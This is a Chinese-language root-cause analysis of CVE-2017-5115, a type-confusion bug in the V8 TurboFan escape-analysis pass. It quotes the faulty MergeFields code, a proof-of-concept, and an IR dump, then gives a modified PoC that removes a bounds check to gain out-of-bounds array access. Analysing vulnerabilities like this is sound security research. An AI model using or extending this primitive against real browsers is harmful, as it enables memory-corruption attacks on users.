


## CVE-2017-5115

### Root case

```
File: src/compiler/escape-analysis.cc
443: bool VirtualObject::MergeFields(size_t i, Node* at, MergeCache* cache,
444:                                 Graph* graph, CommonOperatorBuilder* common) {
445:   bool changed = false;
446:   int value_input_count = static_cast<int>(cache->fields().size());
447:   Node* rep = GetField(i);
448:   if (!rep || !IsCreatedPhi(i)) {
449:     Type* phi_type = Type::None();
450:     for (Node* input : cache->fields()) {
451:       CHECK_NOT_NULL(input);
452:       CHECK(!input->IsDead());
453:       Type* input_type = NodeProperties::GetType(input);
454:       phi_type = Type::Union(phi_type, input_type, graph->zone());
455:     }
456:     Node* control = NodeProperties::GetControlInput(at);
457:     cache->fields().push_back(control);
458:     Node* phi = graph->NewNode(
459:         common->Phi(MachineRepresentation::kTagged, value_input_count),
460:         value_input_count + 1, &cache->fields().front());
461:     NodeProperties::SetType(phi, phi_type);
462:     SetField(i, phi, true);
463: 
464: #ifdef DEBUG
465:     if (FLAG_trace_turbo_escape) {
466:       PrintF("    Creating Phi #%d as merge of", phi->id());
467:       for (int i = 0; i < value_input_count; i++) {
468:         PrintF(" #%d (%s)", cache->fields()[i]->id(),
469:                cache->fields()[i]->op()->mnemonic());
470:       }
471:       PrintF("\n");
472:     }
473: #endif
474:     changed = true;
475:   } else {
476:     DCHECK(rep->opcode() == IrOpcode::kPhi);
477:     for (int n = 0; n < value_input_count; ++n) {
478:       Node* old = NodeProperties::GetValueInput(rep, n);
479:       if (old != cache->fields()[n]) { //!!!!!!![1]!!!!!!!!!
480:         changed = true;
481:         NodeProperties::ReplaceValueInput(rep, cache->fields()[n], n);
482:       }
483:     }
484:   }
485:   return changed;
486: }
```

问题主要出在了[1]处（479行），在已经生成了Phi节点的情况下，后续在访问这个节点没有更新Phi节点的类型和取值范围。这么说着有些抽象，我们不妨举个例子：
那他的poc来分析
```
function f(x) {
  var o = {a : 0};
  if (x == 0) {
    o.a = 1;
  } else {
    if (x > 1) {
      if (x == 2) {
        o.a = "x";
      } 
      y = 1;
    }
    z = 2;
  }
  return o.a + 1;
}

f(0);
f(2);
f(0);
f(2);
%OptimizeFunctionOnNextCall(f);
f(2);
```
我们去看看逃逸分析时的ir图
```
#17:NumberConstant[0]()  [Type: Range(0, 0)]
#28:NumberConstant[1]()  [Type: Range(1, 1)]
#45:HeapConstant[0x253d1bcf8f1 <String[1]: x>]()  [Type: HeapConstant(0x253d1bcf8f1 <String[1]: x>)]

...

#42:IfFalse(#41:Branch)
#44:IfTrue(#41:Branch)
#43:Merge(#42:IfFalse, #44:IfTrue)
#108:Phi[kRepTagged](#17:NumberConstant, #45:HeapConstant, #43:Merge)  [Type: (None | Range(0, 0) | HeapConstant(0x253d1bcf8f1 <String[1]: x>))]
#36:IfFalse(#35:Branch)
#37:Merge(#36:IfFalse, #43:Merge)
#111:Phi[kRepTagged](#17:NumberConstant, #108:Phi, #37:Merge)  [Type: (None | Range(0, 0) | HeapConstant(0x253d1bcf8f1 <String[1]: x>))]
#26:IfTrue(#22:Branch)
#31:Merge(#26:IfTrue, #37:Merge)
#109:Phi[kRepTagged](#28:NumberConstant, #111:Phi, #31:Merge)  [Type: Range(0, 1)]

...

#69:JSAdd[Any](#109:Phi, #28:NumberConstant, #1:Parameter, #70:FrameState, #63:Checkpoint, #31:Merge)  [Type: NumberOrString]
#71:Return(#17:NumberConstant, #69:JSAdd, #69:JSAdd, #69:JSAdd)
#72:End(#71:Return)
```
漏洞出现在了#109节点，它是由#28和#111节点合成而来的，注意#111节点他在合成前[Type: (None | Range(0, 0) | HeapConstant(0x253d1bcf8f1 <String[1]: x>))]，之后在与#28节点[Type: Range(1, 1)]合并之后，把HeapConstant(0x253d1bcf8f1 <String[1]: x>))丢掉了。


那么我们尝试对这个poc做一个修改，让它实现oob
```
function f(x) {
  var o = {a : 0};
  var l = [1,2,3,4]

  var res;
  for (var i = 0; i < 3; ++i) {
    if (x%2 == 0) { o.a = 1; b = false}
    res = l[o.a];
    o.a = x;
  }
  return res;
}
f(0);
f(1);
%OptimizeFunctionOnNextCall(f);
print(f(101))
```
可以看到如同上面的分析，我们的参数x他是一个HeapConstant，在phi合并之后被丢弃了，现在的range为(0,1),之后会消除掉CheckBounds，实现数组越界。




